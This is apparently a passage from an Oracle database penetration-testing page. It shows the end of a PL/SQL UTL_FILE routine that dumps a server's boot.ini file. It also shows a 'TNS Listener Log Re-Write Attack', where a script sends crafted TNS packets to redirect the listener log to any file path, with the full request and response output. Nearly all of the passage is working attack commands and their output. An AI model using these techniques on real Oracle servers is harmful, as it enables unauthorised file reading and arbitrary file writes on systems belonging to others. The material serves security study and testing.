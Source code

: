 ```
LOOP 
           UTL_FILE.GET_LINE(FD,BUFFER,254); 
           DBMS_OUTPUT.PUT_LINE(BUFFER); 
END LOOP; 
EXCEPTION WHEN NO_DATA_FOUND THEN 
     DBMS_OUTPUT.PUT_LINE('End of file.'); 
     IF (UTL_FILE.IS_OPEN(FD) = TRUE) THEN 
               UTL_FILE.FCLOSE(FD); 
     END IF; 
    
WHEN OTHERS THEN 
          IF (UTL_FILE.IS_OPEN(FD) = TRUE) THEN 
               UTL_FILE.FCLOSE(FD); 
          END IF; 
    
END; 
/
[boot loader] 
timeout=30 
default=multi(0)disk(0)rdisk(0)partition(3)\WINNT 
[operating systems] 
multi(0)disk(0)rdisk(0)partition(3)\WINNT="Microsoft Windows 2000 Server" 
/fastdetect 
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" 
/fastdetect 
multi(0)disk(0)rdisk(0)partition(2)\WINDOWS="Microsoft Windows XP Professional" 
/fastdetect 
End of file. 
   
PL/SQL procedure successfully completed.
```
## TNS Listener Log Re-Write Attack
An example of write log file (any file) attack
```
$ /mnt/usb/oracle-set-logfile.sh 'D:\Oracle\network\log\test.log' 127.0.0.1
Attempting to change logfile on 127.0.0.1:1521
Old logfile: D:\Oracle\network\log\listener.log
sending
(DESCRIPTION=(CONNECT_DATA=(CID=(PROGRAM=)(HOST=)(USER=))(COMMAND=log_file)(ARGUMENTS=4)(SERVICE=LISTENER)
(VERSION=1)(VALUE=D:\Oracle\network\log\test.log)))
to 127.0.0.1:1521
writing 216 bytes
reading
.x......"..l(DESCRIPTION=(TMP=)(VSNNUM=153093376)(ERR=0)(COMMAND=log_file)(LOGFILENAME=D:\Oracle\network\log\portc.log))
New logfile: D:\Oracle\network\log\test.log
$ ./oracle-set-logfile.sh 'D:\Oracle\network\log\listener.log' 127.0.0.1
Attempting to change logfile on 127.0.0.1:1521
Old logfile: D:\Oracle\network\log\test.log
sending
(DESCRIPTION=(CONNECT_DATA=(CID=(PROGRAM=)(HOST=)(USER=))(COMMAND=log_file)(ARGUMENTS=4)(SERVICE=LISTENER)(VERSION=1)
(VALUE=D:\Oracle\network\log\listener.log)))
to 127.0.0.1:1521
writing 219 bytes
reading
.{......"..o(DESCRIPTION=(TMP=)(VSNNUM=153093376)(ERR=0)(COMMAND=log_file)(LOGFILENAME=D:\Oracle\network\log\listener.log))
New logfile: D:\Oracle\network\log\listener.log
```